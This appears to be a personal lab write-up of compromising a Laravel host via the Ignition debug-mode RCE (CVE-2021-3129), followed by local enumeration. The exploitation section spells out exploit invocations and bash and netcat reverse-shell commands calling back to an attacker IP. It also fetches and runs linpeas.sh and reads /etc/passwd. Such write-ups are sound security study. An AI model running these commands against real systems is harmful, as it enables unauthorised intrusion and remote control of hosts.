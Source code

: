 ![[Cybersecurity-Resources/images/Pasted image 20241010200759.png]]
---
# Exploitation
## Name of the technique
- Clicked "Enable" to enable debugging
![[Cybersecurity-Resources/images/Pasted image 20241010202820.png]]
- Tested access to `http://192.168.201.38/_ignition/execute-solution` to confirm debug mode in ON and determine Laravel root directory is `/var/www/html/lavita`
![[Cybersecurity-Resources/images/Pasted image 20241010205327.png]]
- Identified `laravel-8.4.2-rce` exploit from `https://github.com/khanhnv-2091/laravel-8.4.2-rce/blob/main/exploit.py`
	- Saved `exploit.py` as `laravelexploit.py` and ran `python3 laravelexploit.py http://192.168.201.38:80 /var/www/html/laravel/storage/logs/laravel.log 'uname -a'`
![[Cybersecurity-Resources/images/Pasted image 20241010203951.png]]
- Identified `CVE-2021-3129` exploit from `https://github.com/joshuavanderpoll/CVE-2021-3129/blob/main/CVE-2021-3129.py`
	- Saved `CVE-2021-3129.py` and ran `python3 CVE-2021-3129.py --host http://192.168.201.38 --exec 'uname -a' --force
![[Cybersecurity-Resources/images/Pasted image 20241010210303.png]]
![[Cybersecurity-Resources/images/Pasted image 20241010210346.png]]
- Reran exploit with bash command for reverse shell but received no output or reverse shell: `python3 CVE-2021-3129.py --host http://192.168.201.38 --exec 'bash -i >& /dev/tcp/192.168.45.215/4444 0>&1' --force`
![[Cybersecurity-Resources/images/Pasted image 20241010210606.png]]
- Reran exploit with netcat command for reverse shell but no output and no reverse shell: 
```
python3 CVE-2021-3129.py --host http://192.168.117.38
execute nc 192.168.45.250 4444 -e /bin/sh
```
- Reran exploit with same command but testing the next chain
![[Cybersecurity-Resources/images/Pasted image 20241011191852.png]]
- Command above hung, and checked other tab to find incoming reverse shell 
![[Cybersecurity-Resources/images/Pasted image 20241011192016.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `cat /etc/passwd` and identified user `skunk`
![[Cybersecurity-Resources/images/Pasted image 20241011192138.png]]
- Navigated to `/home/skunk`, identified `local.txt`, and printed file with `cat /home/skunk/local.txt`
![[Cybersecurity-Resources/images/Pasted image 20241011192557.png]]
- Navigated to `/var/www/html/lavita/storage`, ran `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh` to download `linpeas.sh`, and used `chmod +x linpeas.sh` to make it executable
![[Cybersecurity-Resources/images/Pasted image 20241011193123.png]]
- Ran `./linpeas.sh` and identified multiple processes belonging to `www-data` but user is `root`
![[Cybersecurity-Resources/images/Pasted image 20241011193436.png]]
- Identified `ptrace` protection is *disabled*
![[Cybersecurity-Resources/images/Pasted image 20241011193641.png]]
- Identified user `skunk` is a member of `sudo`